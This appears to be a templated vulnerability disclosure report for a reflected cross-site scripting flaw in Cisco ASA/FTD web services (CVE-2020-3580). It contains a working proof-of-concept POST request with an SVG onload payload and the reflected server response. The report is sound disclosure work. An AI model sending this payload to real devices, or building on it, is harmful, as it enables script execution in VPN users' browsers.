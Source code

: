 

# Cross-site Scripting on cisco appliance (CVE-2020-3580)

## Summary

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting attacks and read sensitive files on a targeted system.


## Affected assets 

$URL

## Steps To Reproduce:
 
 Send POST request as shown below

 1. Using Burp, copy and paste the following request:
```
POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: REDACTED
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

SAMLResponse=%22%3E%3Csvg/onload=alert(/kre80r/)%3E
```

{screenshotid}


2. You will see the alert box willl pop up in the response as seen below
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-store
Pragma: no-cache
Connection: Keep-Alive
Date: Fri, 30 Jul 2021 07:31:46 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 764


<html>
<head>
<script>
function submit_saml() {
    document.cookie = "webvpnlogin=1; path=/; secure";
    document.createElement('form').submit.call(document.getElementById('samlform'));
}
</script>
</head>
<body onload="submit_saml()">
<form id="samlform" action="/+webvpn+/index.html" method="POST">
<input type="hidden" name="tgroup" value="">
<input type="hidden" name="next" value="">
<input type="hidden" name="tgcookieset" value="">
<input type="hidden" name="group_list" value="a">
<input type="hidden" name="username" value="">
<input type="hidden" name="password" value="">
<input type="hidden" name="SAMLResponse" value=""><svg/onload=alert(/kre80r/)>
">
<input type="submit" name="Login" value="Login" style="display:none;">
</form>
</body>
</html>
```

{screenshotid}

## Impact
A successful attack would allow unauthenticated attacker to send  malicious links to Cisco device  users in order to execute javascript commands in the context of the victim’s browser.

### Supporting Material/References:
https://nvd.nist.gov/vuln/detail/CVE-2020-3580
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe

